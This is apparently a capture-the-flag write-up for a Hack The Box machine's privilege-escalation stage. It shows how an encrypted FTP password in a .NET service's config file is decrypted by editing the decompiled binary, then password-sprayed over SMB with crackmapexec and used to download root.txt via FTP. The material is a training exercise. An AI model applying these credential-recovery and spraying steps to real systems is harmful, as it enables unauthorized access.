


# 15 - PrivEsc

There are two ways to get root on this box. The unintended way is SeImpersonatePrivilege. I am going to ignore it for now.

# Sync2Ftp

```powershell
c:\Program Files\Sync2Ftp>dir
 Volume in drive C has no label.
 Volume Serial Number is B219-32A3

 Directory of c:\Program Files\Sync2Ftp

05/23/2019  03:06 PM    <DIR>          .
05/23/2019  03:06 PM    <DIR>          ..
05/23/2019  02:48 PM             9,728 SyncLocation.exe
05/23/2019  03:08 PM               591 SyncLocation.exe.config
               2 File(s)         10,319 bytes
               2 Dir(s)  20,091,797,504 bytes free
```
Sync2Ftp is a unique program installed on the victim's box. There are 2  files in  the source directory of the program; a configuration file and a .NET executable.

# Configuration file 
```xml
c:\Program Files\Sync2Ftp>type SyncLocation.exe.config
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It contains an encrypted password. Although we don't know how it is encrypted, we can decompile the .NET binary to find the encryption method.


# .NET binary
```
┌─[user@parrot]─[10.10.14.6]─[~/htb/json/www]
└──╼ $ file location.exe
location.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows

```


# Edit and compile to decrypt the password


```c#
using System;
using System.ServiceProcess;
using System.Windows.Forms;

namespace SyncLocation
{
	// Token: 0x02000005 RID: 5
	internal static class Program
	{
		// Token: 0x0600000F RID: 15
		private static void Main()
		{
			MessageBox.Show(Crypto.Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
			ServiceBase.Run(new ServiceBase[]
			{
				new Service1()
			});
		}
	}
}
```

This program won't run until certain conditions are met. We can get around the error by decrypting the password before the condition check. Once you are done with editing and all that, go ahead and save it.

`File -> Save All...` and execute the saved executable.


# Pass



The name of the program is Sync2Ftp so it is very likely that this is an ftp password.

# superadmin
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]
└──╼ $ cme smb 10.10.10.158 -u user.lst -p 'funnyhtb'
SMB         10.10.10.158    445    JSON             [*] Windows Server 2012 R2 Datacenter 9600 x64 (name:JSON) (domain:json) (signing:False) (SMBv1:True)
SMB         10.10.10.158    445    JSON             [-] json\administrator:funnyhtb STATUS_LOGON_FAILURE 
SMB         10.10.10.158    445    JSON             [+] json\superadmin:funnyhtb 
```
We found the username.

* superadmin:funnyhtb

# root.txt
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]
└──╼ $ ftp 10.10.10.158
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:user): superadmin
331 Password required for superadmin
Password:
230 Logged on
Remote system type is UNIX.
ftp> cd Desktop
250 CWD successful. "/Desktop" is current directory.
ftp> get root.txt
local: root.txt remote: root.txt
200 Port command successful
150 Opening data channel for file download from server of "/Desktop/root.txt"
226 Successfully transferred "/Desktop/root.txt"
32 bytes received in 0.00 secs (11.3102 kB/s)
```